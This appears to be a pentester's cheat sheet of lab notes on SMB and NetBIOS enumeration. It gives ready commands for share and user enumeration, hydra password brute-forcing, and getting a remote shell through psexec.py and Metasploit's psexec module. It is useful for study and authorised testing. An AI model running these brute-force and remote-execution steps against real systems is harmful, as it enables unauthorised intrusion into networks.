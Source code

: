 # SMB

## Enumeration

### Nmblookup Tool

* <mark style="color:yellow;">nmblookup -A demo.ine.local</mark>: Queries NetBIOS names on a network.
  * <mark style="color:yellow;">-A</mark>: Defines the target.

### SMBClient Tool

* <mark style="color:yellow;">smbclient -L demo.ine.local -N</mark>: Listing available shares at "demo.ine.local"
  * <mark style="color:yellow;">-L</mark>: List available shares
  * <mark style="color:yellow;">-N</mark>: Tries to use anonymous login.
    * <mark style="color:yellow;">smbclient -N \\\\\\\targetIP\\\share</mark>

### RPCClient Tool

* <mark style="color:yellow;">rcpclient -U -N demo.ine.local</mark>: Same as SMBClient
  * <mark style="color:yellow;">-U</mark>: Specified the user for authentication.
  * <mark style="color:yellow;">-N</mark>: Tells rpcclient to not prompt a password.

### Using SMBMap

This is a Samba share enumerator

To enumerate run:

* <mark style="color:yellow;">smbmap -H targetIP -u admin -p password</mark>

#### Listing the  shares:

* <mark style="color:yellow;">smbclient -L targetIP -U admin</mark>

Gaining access to the interface:

* <mark style="color:yellow;">smbclient //targetIP/'nameofshare' -U admin</mark>

### enum4linux

It is an enumeration tool for Samba.

* <mark style="color:yellow;">enum4linux -a targetIP</mark>
  * <mark style="color:red;">-a</mark>: All information

Enumerate with credentials:

* <mark style="color:yellow;">enum4linux -a -u admin -p password1 targetIP</mark>

#### Using enum4linux with RID Cycling

RID cycling is an enumeration technique to brute force the RID to SID mappings of users.

* <mark style="color:yellow;">enum4linux -u \[username] -p \[password] -U \[target IP]</mark>

After we get the RIDs, which will be in hexadecimal we have to convert them and to get te SIDs we append the RID to the Domain Sid.

## NetBIOS Enumeration

### Using nbtscan

Scans networks for NetBIOS name information

* <mark style="color:yellow;">nbtscan targetnetwork/24</mark>

### Using nbstat nmap script

* <mark style="color:yellow;">nmap -sU -sV -T4 --script nbstat.nse -p137 -Pn -n targetIP</mark>

## Starting SMB Enumeration

Nmap scan ports 139,445 with -sV

### Using NSE

* <mark style="color:yellow;">nmap -p445 --script smb-protocols targetIP</mark>&#x20;

### Identify the SMB protocol Security Level

* <mark style="color:yellow;">nmap -p445 --script smb-security-mode targetIP</mark>&#x20;

Gives  you account details

### Using smbclient

#### Trying for anonymous login:

* <mark style="color:yellow;">smbclient -L targetIP</mark>

#### Now we can do user enumeration through the SMB service:

* <mark style="color:yellow;">nmap -p445 --script smb-enum-users targetIP</mark>

#### Create a text file with the enumerated users and use hydra to perform a bruteforce attack:

* <mark style="color:yellow;">hydra -L nameofusersfile -P /usr/share/metassploit-framework/data/wordlists/unix\_passwords.txt targetIP smb</mark>

## Performing SMB Brute-Force

Start msfconsole and postgresql.

Modules used:

* <mark style="color:yellow;">auxiliary/scanner/smb/smb\_login</mark>

Configure  RHOST

Specify <mark style="color:red;">USER\_FILE</mark> and <mark style="color:red;">PASS\_FILE</mark>.

After getting the credentials getting a command prompt using PSExec:

* <mark style="color:yellow;">psexec.py Administrator@targetIP cmd.exe</mark>

## Metasploit Module

<mark style="color:red;">exploit/windows/smb/psexec</mark>

Authenticates using SMB and uploads a payload that gives us a meterpreter session on the target sytem.

Use module

Set RHOSTS

Set credentials obtained in <mark style="color:red;">SMBUser</mark> and <mark style="color:red;">SMBPass</mark>

Set the  payload options.
